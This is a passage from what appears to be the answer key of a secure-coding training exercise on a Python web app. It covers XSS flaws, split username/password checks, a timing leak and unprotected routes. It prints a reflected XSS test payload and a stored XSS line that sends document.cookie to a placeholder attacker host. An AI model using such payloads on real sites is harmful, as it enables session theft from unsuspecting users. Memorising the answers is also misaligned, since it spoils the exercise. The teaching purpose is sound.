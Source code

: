 ### 4.2 User Input Display Analysis

**XSS Vulnerability #2:**

- **Location:** `listFeedback` function in `user_management.py`
- **How processed:** Direct HTML writing: `f.write(f"{row[1]}\n")`
- **Why vulnerable:** **User feedback is written directly to HTML file without
  escaping, enabling stored XSS attacks**

### 4.3 XSS Attack Scenarios

1. **Template XSS Attack Scenario:** **Answer:** **Attacker could pass
   JavaScript in the `msg` parameter:**

   - **URL:** `/?msg=<script>alert('XSS')</script>`
   - **Result:** JavaScript executes in victim's browser
   - **Impact:** Session theft, malicious redirects, defacement

2. **Stored XSS Attack Scenario:** **Answer:** **Attacker submits malicious
   feedback:**
   - **Feedback:**
     `<script>document.location='http://evil.com/steal?cookie='+document.cookie</script>`
   - **Result:** Every user viewing feedback page has their session stolen
   - **Impact:** Persistent attack affecting all users

---

## 📋 Exercise 5: Business Logic Security Review - ANSWERS

### 5.1 Authentication Logic Analysis

1. **Does the authentication logic check username AND password together?**
   **Answer:** ❌ **No, they are checked separately**

2. **What happens if an attacker uses different usernames for each check?**
   **Answer:** **Authentication bypass is possible. Attacker can:**

   - **Use legitimate username with SQL injection in password field**
   - **Use SQL injection in username field with any password**
   - **Mix valid user credentials to gain unauthorized access**

3. **Is there a timing attack vulnerability in the authentication process?**
   **Answer:** **YES - The authentication process takes longer when usernames
   exist vs. when they don't, revealing valid usernames to attackers.**

### 5.2 Access Control Review

1. **Are sensitive functions protected with authentication checks?** **Answer:**
   ❌ **No, some routes are unprotected**

2. **Can users access functionality they shouldn't?** **Answer:** **YES - No
   proper session management or authorization checks on routes**

### 5.3 Business Logic Vulnerabilities
